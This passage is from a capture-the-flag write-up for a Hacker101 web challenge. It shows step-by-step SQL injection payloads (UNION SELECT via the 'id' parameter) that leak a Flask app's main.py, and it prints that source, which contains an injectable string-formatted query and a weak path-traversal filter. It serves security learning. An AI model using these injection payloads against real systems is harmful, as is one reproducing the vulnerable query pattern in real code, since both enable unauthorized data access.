 and scrolling down to "General Instructions" we get an even better idea of what files this image may contain:

```
[...]

* Create an app directory and enter in it
* Create a main.py file (it should be named like that and should be in your app directory) with:

[...]

```

### Attempt 3:

So it is a webserver based on the flask python module and there might be a `main.py` file. So let's send this payload:

```
https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=-1; SELECT 'main.py'
```

`404`
What? Why? Oh, I forgot to use the `UNION`...

```
https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=-1 UNION SELECT main.py
```

`500`
What now...? Oh, I forgot the `'`


```
https://38d4012ab81ae8bcc9917b2fd36e7dca.ctf.hacker101.com/fetch?id=-1 UNION SELECT 'main.py'
```
Finally, we get the [source code](./helpfull_files/main.py)...

```python
from flask import Flask, abort, redirect, request, Response
import base64, json, MySQLdb, os, re, subprocess

app = Flask(__name__)

[...]

@app.route('/fetch')
def fetch():
	cur = getDb().cursor()
	if cur.execute('SELECT filename FROM photos WHERE id=%s' % request.args['id']) == 0:
		abort(404)

	# It's dangerous to go alone, take this:
	# ^FLAG^****************************************************************$FLAG$

	return file('./%s' % cur.fetchone()[0].replace('..', ''), 'rb').read()

if __name__ == "__main__":
	app.run(host='0.0.0.0', port=80)
```
